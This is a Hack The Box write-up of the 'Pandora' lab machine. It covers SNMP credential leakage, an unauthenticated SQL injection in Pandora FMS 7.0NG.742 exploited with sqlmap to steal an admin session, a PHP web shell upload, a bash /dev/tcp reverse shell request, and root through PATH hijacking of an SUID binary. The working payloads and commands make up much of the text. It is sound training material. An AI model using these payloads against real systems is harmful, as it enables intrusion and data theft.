

<div align="center">
	
</div>

| Name             | Pandora                                                                                                  |
| ---------------- |:-------------------------------:|
| Difficulty       | Easy                                                                                                 |
| Creator          | [TheCyberGeek](https://www.hackthebox.com/home/users/profile/114053) & [dmw0ng](https://www.hackthebox.com/home/users/profile/610173)|
| First user blood | [jazzpizazz](https://www.hackthebox.com/home/users/profile/87804) 00 days, 01 hours, 46 mins, 47 seconds|
| First root blood | [JoshSH](https://www.hackthebox.com/home/users/profile/269501) 00 days, 02 hours, 01 mins, 23 seconds|
| Metrics & Scores | |

Pandora is an Easy(just in context of name! user part was not easy) Linux machine created by TheCyberGeek and dmw0ng involves these overall steps:
1. Full TCP/UDP nmap scan 
2. Enumerate snmp 161 port and find creds for user daniel
3. login with daniel user and find the `pandora_console` on localhost
4. Read the docs and enumerate API and find version and users
5. Exploit an SQL Injection vulnerability and extraxt users and admin session
6. Login with admin session and upload malicious zip file containing php webshell and get shell with matt user
7. Escalate privilege to root through pandora backup suid binary

# Recon
First of all nmap scan shows us there are 2 ports open:
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-03 10:44 +0430
Nmap scan report for 10.10.11.136
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Play | Landing
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.98 seconds
```

Here is details about services and host
+ OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) -> **ubuntu focal (20.04)**
+ Apache httpd 2.4.41 ((Ubuntu))


Lets open port 80


It looks like there is virtual host named `panda.htb` but adding it to `/etc/hosts` and opening it leads to same page\
Also fuzzing the directories and vhosts with gobuster and wfuzz didn't disclose anything special, so we're done with port 80.

Let's run another nmap for UDP ports with this command:
```bash
nmap -vv -Pn -sU --max-retries 0 10.10.11.136
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-03 14:14 +0430
Initiating UDP Scan at 14:14
Scanning panda.htb (10.10.11.136) [1000 ports]
Warning: 10.10.11.136 giving up on port because retransmission cap hit (0).
Discovered open port 161/udp on 10.10.11.136
Completed UDP Scan at 14:14, 9.93s elapsed (1000 total ports)
Nmap scan report for panda.htb (10.10.11.136)
Host is up, received user-set (0.18s latency).
Scanned at 2022-04-03 14:14:27 +0430 for 10s
Not shown: 986 open|filtered udp ports (no-response)
PORT      STATE  SERVICE REASON
161/udp   open   snmp    udp-response ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.04 seconds
           Raw packets sent: 1015 (46.927KB) | Rcvd: 15 (1.216KB)
```

It looks like there is an `SNMP` service on port 161. Lets enumerate it with snmpwalk. according to [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-snmp)\
Here is some juicy output from snmp enumeration:
```bash
snmpwalk -c public -v1 panda.htb
HOST-RESOURCES-MIB::hrSWRunParameters.1138 = STRING: "-u daniel -p HotelBabylon23"
HOST-RESOURCES-MIB::hrSWRunParameters.831 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"
HOST-RESOURCES-MIB::hrSWRunParameters.840 = STRING: "-LOw -u Debian-snmp -g Debian-snmp -I -smux mteTrigger mteTriggerConf -f -p /run/snmpd.pid"
HOST-RESOURCES-MIB::hrSWRunPath.1147 = STRING: "sshd: daniel [priv]"
```

process names and arguments reveal some credentials : `daniel : HotelBabylon23`\
Let's try this one on SSH, Yay we can login to the box with daniel user.


# Foothold
We have shell as `daniel` but we can't rad user flag because it's for `matt` user so we need to find a way to escalate privilege to `matt` user\
Lets enumerate inside the box to see what we can find.\
Here is a service on `/var/www/pabdora/` which seems to be a monitoring service according to this [link](https://pandorafms.com/en/).


It seems that there is a virtual host named `pandora` but we couldn't see it from port 80\
Let's see apache config files:
```xml
daniel@pandora:~$ cd /etc/apache2/
daniel@pandora:/etc/apache2$ grep -ir pandora .
./sites-available/pandora.conf:  ServerName pandora.panda.htb
./sites-available/pandora.conf:  DocumentRoot /var/www/pandora
./sites-available/pandora.conf:  <Directory /var/www/pandora>
daniel@pandora:/etc/apache2$


daniel@pandora:/etc/apache2$ cat ./sites-available/pandora.conf
<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
  <Directory /var/www/pandora>
    AllowOverride All
  </Directory>
  ErrorLog /var/log/apache2/error.log
  CustomLog /var/log/apache2/access.log combined
</VirtualHost>
```

As we see the service is listening on `localhost:80` so we can only access it from inside the box:
+ VirtualHost localhost:80
+ ServerAdmin admin@panda.htb
+ ServerName pandora.panda.htb
+ DocumentRoot /var/www/pandora

Let's use [chisel](https://github.com/jpillora/chisel) to forward the machines `localhost:80` to our machines `localhost:80`
Don't forget to set `cap_net_bind_service` for chisel so it can bind service to port 80 which needs privileged access\
Then run it twice, one on your machine on  `server` mode and the second on the remote box with `client` mode:

```bash
$ sudo setcap 'cap_net_bind_service+ep' ./chisel

# Our Machine
$ ./chisel server --reverse -p 8000 

# Remote Target
$ ./chisel client IP:8000 R:80:127.0.0.1:80
```

Now we can access the remote box's `http://localhost:80` from our machines `http://localhost:80`\
And here is the `pandora_console`:

We can see it's version from bottom of the page : `v7.0NG.742_FIX_PERL2020\`
Let's try the creds we found before on login page. It seems the user just can use the API:


I put a lot of time exploring and reading the whole [API Docs](https://pandorafms.com/manual/en/documentation/08_technical_reference/02_annex_externalapi). but that lead to nowhere except extracting the users info. but the hashed passwords are uncrackable:
```bash
curl "http://localhost:8002/pandora_console/include/api.php?op=get&op2=list_all_user&return_type=json&apipass=1234&user=daniel&pass=HotelBabylon23" | jq  ✔  3.0.1  
{
  "type": "array",
  "data": [
    {
      "id_usuario": "admin",
      "fullname": "Pandora Admin",
      "id_up": "1",
      "id_perfil": "5",
      "perfil_name": "Pandora Administrator",
      "id_grupo": "0",
      "group_name": "All"
    },
    {
      "id_usuario": "matt",
      "fullname": "Matt",
      "id_up": "2",
      "id_perfil": "1",
      "perfil_name": "Operator (Read)",
      "id_grupo": "0",
      "group_name": "All"
    },
    {
      "id_usuario": "daniel",
      "fullname": "Daniel",
      "id_up": "3",
      "id_perfil": "1",
      "perfil_name": "Operator (Read)",
      "id_grupo": "0",
      "group_name": "All"
    }
  ]
}

daniel;Daniel;;;-1;76323c174bd49ffbbdedf678f6cc89a6;;1649227059;1623881514;daniel@pandora.htb;;0;en_GB;UTC;20;0;0;0;;Default;;0;0000-00-00 00:00:00;0000-00-00 00:00:00;0;0;basic;1;0;0;0;0;;-1;0;;30;0;;;
matt;Matt;;;-1;f655f807365b6dc602b31ab3d6d43acc;;1638796349;1623425334;matt@pandora.htb;;0;default;;20;0;0;0;;Default;;0;0000-00-00 00:00:00;0000-00-00 00:00:00;0;0;basic;0;0;0;0;0;;-1;0;;30;0;;;0
admin;Pandora Admin;;;-1;ad3f741b04bd5880fb32b54bc4f43d6a;Admin Pandora;1623956949;0;admin@pandora.htb;555-555-5555;1;default;;0;0;0;0;;Default;;0;2021-06-11 15:27:17;0000-00-00 00:00:00;0;0;advanced;0;0;0;0;0;;0;0;;30;0;;;0
```

And here is the full version API:
```bash
curl "http://localhost:8002/pandora_console/include/api.php?info=version"                                                                             0|4 ✘  3.0.1  
Pandora FMS v7.0NG.742_FIX_PERL2020 - PC200103 MR34
```

It seems we can't do that much with APIs. Let search for the vulneraqbilities and CVEs for pandora_console.\
It seems there are mutilple CVEs for this version `Pandora FMS v7.0NG.742`. [This link](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained) has some good explanation about the vulnerabilities.

##  Unauthenticated SQL Injection (CVE-2021-32099)
This vulnerability exists in `/include/chart_generator.php`. and the vulneqable code section are below:
If you want full explanation read the mentioned link.
```php
$user = new PandoraFMS\User(['phpsessionid' => $_REQUEST['session_id']]);
if (check_login(false) === false) {
// Error handler.
```

+ **/include/lib/User.php**
```php
public function __construct($data){
	global $config;

	// Unset user.
	unset($config['id_usuario']);
	unset($_SESSION['id_usuario']);

	if (is_array($data) === true) {
		if (isset($data['phpsessionid']) === true) {
			$this->sessions[$data['phpsessionid']] = 1;
			$info = \db_get_row_filter(
				'tsessions_php',
				['id_session' => $data['phpsessionid']]
			);

			if ($info !== false) {
				// Process.
				$session_data = session_decode($info['data']);
				$this->idUser = $_SESSION['id_usuario'];

				// Valid session.
				return $this;
			}

			return null;
		}
```

Here is the PoC which you can see error of the SQL statement:
```
http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=a' union select 1;-- -

SQL error: The used SELECT statements have a different number of columns ('SELECT * FROM tsessions_php WHERE `id_session` = 'a' UNION SELECT table_schema, table_name, 1,1 FROM information_schema.tables;-- -' LIMIT 1') in**/var/www/pandora/pandora_console/include/db/mysql.php**on line 114
```

I tried mutiple columns and I relized that there are 3 columns in current table which is `tsessions_php`\
Also I could execute `time-based` SQLi with this payload:
```
a' - IF(ASCII(LOWER(SUBSTRING((SELECT username FROM tcredential_store WHERE identifier>1),1,1))) > 20,SLEEP(1),0);-- -
```

So Lets automate this with `sqlmap` Here is the database names:
```bash
sqlmap.py -u "http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=a'" --dbms=MySQL --dbs
available databases [2]:
[*] information_schema
[*] pandora
```

And here is the content of table `rusuario` which is users table. as we can see we already extratced users information through API:
```
Database: pandora
Table: tusuario
[3 entries]
+--------------------+---------+----------+----------------------------------+
| email              | id_user | is_admin | password                         |
+--------------------+---------+----------+----------------------------------+
| admin@pandora.htb  | admin   | 1        | ad3f741b04bd5880fb32b54bc4f43d6a |
| daniel@pandora.htb | daniel  | 0        | 76323c174bd49ffbbdedf678f6cc89a6 |
| matt@pandora.htb   | matt    | 0        | f655f807365b6dc602b31ab3d6d43acc |
+--------------------+---------+----------+----------------------------------+
```

we want `admin` password but it is uncrackable, There was also another table named `tsessions_php` which may have some valid sessions form admin user. Let's try that.\
I ran sqlmap again for `tsessions_php` table and it extracted a lot of data but here is what we want. the sessino `2e6n5vl4464up7shn0gav0n9to` looks like is for admin.
```
+----------------------------+--------------------------------------------------------------------------------------------------------+-------------+
| id_session                 | data                                                                                                   | last_active |
+----------------------------+--------------------------------------------------------------------------------------------------------+-------------+
| 09vao3q1dikuoi1vhcvhcjjbc6 | id_usuario|s:6:"daniel";                                                                               | 1638783555  |
| 0ahul7feb1l9db7ffp8d25sjba | NULL                                                                                                   | 1638789018  |
| 1um23if7s531kqf5da14kf5lvm | NULL                                                                                                   | 1638792211  |
| 2e25c62vc3odbppmg6pjbf9bum | NULL                                                                                                   | 1638786129  |
| 2e6n5vl4464up7shn0gav0n9to | id_usuario|s:5:"admin";                                                                                | 1649322525  |
| 2evom9sveami3a6cdb62nv1pnt | id_usuario|s:6:"daniel";                                                                               | 1649308597  |
| 346uqacafar8pipuppubqet7ut | id_usuario|s:6:"daniel";                                                                               | 1638540332  |
```
Let's set this session in browser and explore the `pandra_console` again. Here we have valid admin session:


OK now we have admin panel in `pandora_console` According to this [video](https://www.youtube.com/watch?v=61KE45V7VT8) we can upload malicious zip file containing a php file.\ After uploading it the zip would be extracted and the php file can be accessed and execute arbitrary code which can lead to RCE.

```php
<?php
system($_REQUEST['k']);
?>
```


Here we successfully uploaded the zip file. Lets see if the php file inside it has been extratced or not.\
There we goo. the php file is there in `/pandora_console/extension/kryptonz.php` path and we can execute command with `matt` user:


Let get a reverse shell with this request

```http
GET /pandora_console/extensions/kryptonz.php?k=/bin/bash+-c+"bash+-i+>%26+/dev/tcp/IP/PORT+0>%261" HTTP/1.1
Host: localhost
Cookie: PHPSESSID=2e6n5vl4464up7shn0gav0n9to
Connection: close

```

Now we have a user shell as `matt` user:
```bash
└──╼ $ nc -lvnp 10001
Listening on 0.0.0.0 10001
Connection received on 10.10.11.136 33984
bash: cannot set terminal process group (965): Inappropriate ioctl for device
bash: no job control in this shell
matt@pandora:/var/www/pandora/pandora_console/extensions$ id 
id       
uid=1000(matt) gid=1000(matt) groups=1000(matt)
matt@pandora:/var/www/pandora/pandora_console/extensions$ 
```

```bash
matt@pandora:/var/www/pandora/pandora_console/extensions$ which python3
which python3
/usr/bin/python3
matt@pandora:/var/www/pandora/pandora_console/extensions$ python3 -c "import pty; pty.spawn('/bin/bash')"
<ns$ python3 -c "import pty; pty.spawn('/bin/bash')"      
matt@pandora:/var/www/pandora/pandora_console/extensions$ cd ~
cd ~
matt@pandora:/home/matt$ ls -la
ls -la
total 36
drwxr-xr-x 4 matt matt 4096 Apr  7 19:21 .
drwxr-xr-x 4 root root 4096 Dec  7 14:32 ..
lrwxrwxrwx 1 matt matt    9 Jun 11  2021 .bash_history -> /dev/null
-rw-r--r-- 1 matt matt  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 matt matt 3771 Feb 25  2020 .bashrc
drwx------ 2 matt matt 4096 Apr  7 19:20 .cache
-rw-r--r-- 1 matt matt  807 Feb 25  2020 .profile
drwx------ 2 matt matt 4096 Apr  7 19:19 .ssh
-rwxrwxr-x 1 matt matt   10 Apr  7 19:21 tar
-rw-r----- 1 root matt   33 Apr  7 19:04 user.txt
matt@pandora:/home/matt$ cat user.txt
cat user.txt
7549779fdbab4b1875ba581548ebd9cc
matt@pandora:/home/matt$ 
```
And here is the user flag finally:
```bash
matt@pandora:/home/matt$ cat user.txt
7549************************d9cc
matt@pandora:/home/matt$ 
```

# Privilege Escalation (Root shell)
Let's see some basic vectors for getting root shell
+ sudo privileges:
```bash
matt@pandora:/home/matt$ sudo -l
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: unable to initialize policy plugin
```

+ groups:
```bash
matt@pandora:/home/matt$ groups
matt
```

+ Listening service:
```bash
matt@pandora:/home/matt$ ss -lnpt
State                   Recv-Q                  Send-Q                                   Local Address:Port                                    Peer Address:Port  Process
LISTEN                  0                       4096                                     127.0.0.53%lo:53                                           0.0.0.0:*
LISTEN                  0                       128                                            0.0.0.0:22                                           0.0.0.0:*
LISTEN                  0                       80                                           127.0.0.1:3306                                         0.0.0.0:*
LISTEN                  0                       128                                               [::]:22                                              [::]:*
LISTEN                  0                       511                                                  *:80                                                 *:*
```

+ SUID binaries
```bash
matt@pandora:/home/matt$ find / 2>/dev/null -perm -4000
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/pandora_backup
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/at
/usr/bin/fusermount
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
```

Here is some interesting binary named `pandora_backup` Let's examine that:
```bash
matt@pandora:/home/matt$ ls -la /usr/bin/pandora_backup                                                                                                                     -rwsr-x--- 1 root matt 16816 Dec  3 15:58 /usr/bin/pandora_backup
```
As we can see it has `suid bit` set and the owner is `root` user. So if run it, we are actually running it with root user\
If we can find a way to execute arbitrary command with it then we can execute command with root user and get a root shell. Let's see what it has
```bash
└──╼ $ file pandora_backup 
pandora_backup: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7174c3b04737ad11254839c20c8dab66fce55af8, for GNU/Linux 3.2.0, not stripped
```

If we execute it uses `tar` command to make a backup archive:
```bash
matt@pandora:~$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
tar: Removing leading ''/' from member names
/var/www/pandora/pandora_console/AUTHORS
tar: Removing leading '/' from hard link targets
/var/www/pandora/pandora_console/COPYING
/var/www/pandora/pandora_console/DB_Dockerfile
```

It's and `ELF` binary.  Lets see its strings before reversing it:
```bash
└──╼ $ strings pandora_backup | head -n 20
/lib64/ld-linux-x86-64.so.2
puts
setreuid
system
getuid
geteuid
__cxa_finalize
__libc_start_main
libc.so.6
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u/UH
[]A\A]A^A_
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
Backup failed!
Check your permissions!
```

Here is an interesting string. it uses `tar` command to make a zip archive:
```bash
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
```


Here are the scenario i had:
+ If we runf the `/usr/bin/pandora_backup` we're running it as `matt` user so it will use the matt's user `$PATH` variable:
+ If we change the `$PATH` to somewhere that there is a custom `tar` binary it will execute that instead of main `tar` `/usr/bin/tar`:
+ we can write arbitrary command to that tar file (like a reverse shell or a simple `/bin/sh`)
+ When that custom `tar` binary executes, it will return a reverse shell and because it's effective user changes to `root` user it will be a root shell!

Let do this:
```bash
#1
matt@pandora:/home/matt$ cd ~

matt@pandora:/tmp/.kk$ echo "/bin/sh" > tar
matt@pandora:/tmp/.kk$ chmod +x tar
matt@pandora:/tmp/.kk$ PATH=$(pwd)
```

After executing the `/usr/bin/pandora_backup` it will lead to a root shell `/bin/sh`
```bash
matt@pandora:~$ /usr/bin/pandora_backup                                                                                                                                                               
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
uid=0(root) gid=1000(matt) groups=1000(matt)
Backup successful!
Terminating program!
matt@pandora:~$ echo /bin/sh > tar
matt@pandora:~$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
# /usr/bin/id
uid=0(root) gid=1000(matt) groups=1000(matt)
```

And here is the root flag
```bash
cd /root
/usr/bin/cat root.txt
7e51************************b595
```

Written by [KRyptonZ](https://www.hackthebox.eu/home/users/profile/372989)